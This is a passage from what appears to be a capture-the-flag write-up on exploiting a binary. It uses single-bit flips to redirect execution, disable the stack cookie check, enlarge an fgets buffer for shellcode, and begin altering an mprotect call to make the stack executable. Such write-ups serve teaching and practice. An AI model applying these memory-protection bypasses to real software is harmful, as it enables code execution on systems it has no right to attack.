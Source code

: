 ```c
((0x4006E6 << 3) | 2) = 33568562
```

We redirect to the function start again.

### Getting rid of the stack cookie check

Let's get rid of that stack cookie check restricting our ability to juggle and mess with the stack first before it becomes a problem:

```asm
  .text:000000000040085B                 jnz     short loc_400883
  .text:000000000040085D                 mov     eax, r14d
```

This translates to opcodes:

```
75 26 44 89 F0
```

If we XOR the first byte with 0x40 we can turn this into

```
35 26 44 89 F0
```

Which is the instruction

```asm
xor eax, 0xF0894426
```

Thus taking care of that conditional jump and hence avoiding the consequences of messing with the stack cookie.

### Giving ourselves some buffer space for shellcode

Our buffer is limited to 50 bytes and while it is probably possible to craft shellcode fitting in there together with the target address representation and return address we will give ourselves a little space by bitflipping the number of bytes `fgets` will read from input so that we can specify larger shellcodes:

```asm
.text:00000000004007C3                 mov     esi, 32h        ; n
```

Which we XOR with 0x40 so that we now read `0x72` bytes (giving us `0x40` bytes extra).

### Modifying the second mprotect call

Before we can make the stack RWX we will need to modify the second mprotect call since otherwise the stack will be made RX only (and non-writable) by the second mprotect call which is a problem for obvious reasons. We target the protection-flag setting instruction:

```asm
  .text:000000000040082F                 mov     edx, 5          ; prot
```
